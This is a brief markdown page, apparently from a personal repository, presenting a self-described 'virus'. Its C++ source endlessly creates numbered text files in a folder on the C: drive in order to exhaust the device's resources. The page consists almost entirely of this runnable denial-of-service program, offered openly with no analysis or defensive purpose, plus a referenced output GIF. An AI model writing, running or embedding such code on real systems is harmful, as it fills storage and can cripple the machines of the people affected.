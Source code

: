 # Virus
Idea &rarr; Duplicate a file on the device infinitely, and this consumes the device's resources to the maximum.
```c
#include <bits/stdc++.h>
#include <direct.h>
using namespace std;

int main() {

    long long indexFile = 0;
    char const* path = "C:\\Diphro\\";
    _mkdir(path);

    while (true) {
        indexFile++;
        ofstream file (path + to_string(indexFile) +".txt");
    }
}
```
## The output
![Alt text](/images/virus.gif)


